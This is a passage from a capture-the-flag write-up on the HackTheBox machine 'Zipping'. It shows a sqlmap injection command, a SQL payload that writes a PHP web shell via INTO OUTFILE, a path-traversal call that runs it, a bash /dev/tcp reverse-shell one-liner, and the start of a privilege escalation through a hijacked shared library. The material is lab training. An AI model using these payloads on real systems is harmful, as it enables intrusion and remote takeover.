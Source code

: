 ```bash
sqlmap -u "http://zipping.htb/shop/index.php?page=cart" --data="product_id=1&quantity=1" --skip="quantity" --prefix="%0a'" --suffix="-- -1" --dbms="MySQL" -D zipping -T products --schema --ignore-redirects --common-columns
```
<i>Note: %0a is the URL encode of a new line \n.</i>

After enumerating the database, this is the most valuable information I got:
- Database: Zipping
- Tables: products
- Privileges FILE: Y
- @@data_dir: `/var/lib/mysql`

We notice that we can write a file but only in the `/var/lib/mysql` directory. A little recap, we have found that we can write a .php file and we can execute a php file from any directory using the Path Traversal at the `/shop/index.php=page=[MALICOUS_PHP_FILE]`.

### Exploiting SQL Injection and Path Traversal to Gain Shell Access
The next SQLi will write a webshell at `/var/lib/mysql/shell.php`, this web shell works with GET request and the parameter `0=[command]`.

```sql

1'; SELECT "<?php system($_GET[0]); ?>" INTO OUTFILE '/var/lib/mysql/shell.php'; -- -1
```

Now access the URL `http://zipping.htb/shop/index.php?page=/var/lib/mysql/shell.php?0=[REVERSE_SHELL_PAYLOAD]`

You can obtain a reverse shell at https://www.revshells.com/. An example of reverse shell would be:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/[YOUR-IP]/7000 0>&1'
```

<i>Note: I always use `/bin/bash -c` as a prefix beucase it has a better percentage of success.</i>

## Privilege Escalation

After obtaining a shell as "rektsu". the next step involves privilege escalation. Initially, we'll enumerate the machine using the `sudo -l` command, discovering that we can execute the `/usr/bin/stock` binary as sudo without being prompted for a password. Upon this realization, we execute it to observe its behavior and notice the absence of a password prompt.

### Reverse Engineering
Consequently, we analyze the binary using the `strings /usr/bin/stock` command, extracting various strings from the executable. Notably, before prompting for a password, there exists the string "St0ckM4nager". Further analysis of the strings reveals a CSV file loaded at `/root/stock.csv`. Executing the binary with the password exposes a small program offering stock display and edit options. However, attempting to inject any commands proves unsuccessful.

If we utilize the `strace` command to run the `/usr/bin/stock` binary and input the password, we'll notice it attempts to load a file from `/home/rektsu/.config/libcounter.so`, indicating that it hasn't been found. When checking for this file, it indeed doesn't exist, but we have the capability to create it.
